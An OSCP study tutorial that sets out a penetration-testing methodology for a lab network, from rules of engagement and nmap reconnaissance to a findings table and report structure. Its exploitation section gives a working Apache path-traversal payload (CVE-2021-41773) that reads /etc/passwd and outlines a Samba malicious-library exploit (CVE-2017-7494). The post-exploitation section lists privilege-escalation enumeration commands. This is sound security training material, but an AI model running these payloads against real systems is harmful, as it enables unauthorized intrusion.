 # Practical Penetration Testing Methodology Example

This document provides a practical example of a penetration testing methodology that you can follow during the OSCP exam and in real-world scenarios.

## Sample Penetration Test Workflow

### 1. Pre-Engagement

**Example Documentation: Rules of Engagement**

```
Target IP Range: 10.11.1.0/24
Testing Window: 2023-08-20 08:00 - 2023-08-21 08:00 UTC
Authorized Testing Activities:
- Network scanning
- Vulnerability assessment
- Exploitation attempts
- Privilege escalation
- Limited lateral movement (within scope)
Prohibited Activities:
- Denial of Service attacks
- Social engineering against personnel
- Physical security testing
- Destructive testing
Point of Contact: security@example.com
Emergency Contact: +1-555-123-4567
```

### 2. Information Gathering

**Example Commands:**

```bash
# Passive Reconnaissance
whois example.com
host example.com
dig example.com ANY
theHarvester -d example.com -b google,linkedin

# Active Reconnaissance
nmap -sS -A -T4 -p- 10.11.1.10
nmap -sU -T4 --top-ports 100 10.11.1.10
nmap -sV --script=banner 10.11.1.10
```

### 3. Vulnerability Assessment

**Example Findings Documentation:**

| IP Address  | Port | Service | Version | Vulnerability | CVE |
|-------------|------|---------|---------|---------------|-----|
| 10.11.1.10  | 80   | HTTP    | Apache 2.4.29 | Directory Traversal | CVE-2021-41773 |
| 10.11.1.10  | 22   | SSH     | OpenSSH 7.6p1 | None Identified | N/A |
| 10.11.1.10  | 445  | SMB     | Samba 4.5.16  | Remote Code Execution | CVE-2017-7494 |

### 4. Exploitation

**Example Exploitation Plan:**

1. Target: Web Server (10.11.1.10:80)
   - Vulnerability: Directory Traversal (CVE-2021-41773)
   - Exploit: Custom Python script to extract /etc/passwd
   - Expected Outcome: File read access

2. Target: SMB Server (10.11.1.10:445)
   - Vulnerability: Remote Code Execution (CVE-2017-7494)
   - Exploit: Metasploit module or manual exploitation
   - Expected Outcome: Shell access

**Example Exploitation Command:**
```bash
# Manual exploitation of Apache directory traversal
curl -s --path-as-is "http://10.11.1.10/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# Manual SMB exploitation
# Create malicious .so file
gcc -o evil.so -shared evil.c -fPIC
# Upload to writeable share
smbclient //10.11.1.10/share -U username
put evil.so
# Trigger the exploit
python3 samba_exploit.py 10.11.1.10 evil.so
```

### 5. Post-Exploitation

**Example Commands:**

```bash
# Linux Privilege Escalation
id
uname -a
cat /etc/passwd
find / -perm -u=s -type f 2>/dev/null
sudo -l

# Windows Privilege Escalation
whoami /all
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
accesschk.exe -uwcqv "Authenticated Users" *
```

### 6. Documentation

**Example Report Structure:**

1. Executive Summary
2. Methodology
3. Findings
   - High Risk Vulnerabilities
   - Medium Risk Vulnerabilities
   - Low Risk Vulnerabilities
4. Exploitation Proof of Concept
5. Recommendations
6. Appendices
   - Tools Used
   - Command Logs
   - Screenshots

## OSCP-Specific Notes

For the OSCP exam, remember:

1. **Document as you go**: Take screenshots and notes of every significant step
2. **Track your progress**: Keep a checklist of machines and points
3. **Manage time**: Set time limits for each target
4. **Maintain persistence**: If stuck, rotate to another target and return later
5. **Verify exploits**: Test exploits in a controlled environment before using them

## Exercise: Create Your Own Methodology

Using this example as a guide, create your own detailed penetration testing methodology that you can follow during the OSCP exam. Customize it based on your strengths and preferences, but ensure it covers all the essential phases of a penetration test.
